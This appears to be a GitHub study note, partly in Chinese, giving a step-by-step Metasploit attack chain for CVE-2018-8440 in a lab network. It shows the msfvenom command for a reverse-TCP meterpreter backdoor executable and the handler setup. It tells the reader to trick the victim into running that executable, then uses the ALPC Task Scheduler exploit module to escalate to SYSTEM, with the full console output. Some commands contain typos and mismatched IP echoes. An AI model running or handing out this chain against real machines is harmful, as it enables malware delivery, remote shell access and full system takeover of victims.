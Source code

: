 # Metasploit-Note

## CVE-2018-8440
----
```
Attacker IP : 192.168.1.1
Victim IP : 192.168.1.2
Victim OS : Windows 10x64
```
Attacker Computer

Step 1. 產生後門程式
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > backdoor.exe
```
Step 2. 監聽回傳設定
```
$ msfconsole
msf > use mulit/handler
msf exploit(mulit/handler) >  set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(mulit/handler) >  set LHOST 192.168.1.1
LHOST => 192.168.59.144
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444
```
Step 3. 誘使受害端點擊 backdoor.exe，並取得一般使用者權限
```
[*] Sending stage (206403 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.1:4444 -> 192.168.1.2:50228) at 2018-10-01 08:40:10 +0800
meterpreter > getuid
Server username: DESKTOP-E6KTUJB\User
meterpreter > background 
[*] Backgrounding session 1...
```
Step 4. 查看監聽對象資訊
```
msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                             Connection
  --  ----  ----                     -----------                             ----------
  1         meterpreter x64/windows  DESKTOP-E6KTUJB\User @ DESKTOP-E6KTUJB  192.168.1.1:4444 -> 192.168.1.2:50228 (192.168.59.146)
```
Step 5. 使用 CVE-2018-8440 漏洞腳本，並取得系統權限
```
msf exploit(multi/handler) > use exploit/windows/local/alpc_taskscheduler 
msf exploit(windows/local/alpc_taskscheduler) > show options 

Module options (exploit/windows/local/alpc_taskscheduler):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PROCESS                   no        Name of process to spawn and inject dll into.
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 x64


msf exploit(windows/local/alpc_taskscheduler) > set session 1
session => 1
msf exploit(windows/local/alpc_taskscheduler) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444 
[*] Checking target...
[*] Target Looks Good... trying to start notepad.exe
[*] Launching notepad.exe to host the exploit...
[+] Process 7976 launched.
[*] Writing payload dll into process 7976 memory
[*] Reflectively injecting the exploit DLL into 7976...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (192.168.1.1:4444 -> 192.168.1.2:50258) at 2018-10-01 09:16:31 +0800

C:\Windows\system32>whoami
whoami
nt authority\system
```
# Notes
* Metasploit 腳本更新
  Kali 中 .rb 的存放路徑為 /usr/share/metasploit-framework/modules/exploits 中

  將 .rb 放進去資料夾後，重新載入
  ```
  $ msfconsole
  msf > reload_all
  [*] Reloading modules from all module paths...
  ```
* 查詢可產生後門程式的類型
  ```
  $ msfvenom -l payloads
  ```
# Reference
[metasploit-framework](https://github.com/rapid7/metasploit-framework)
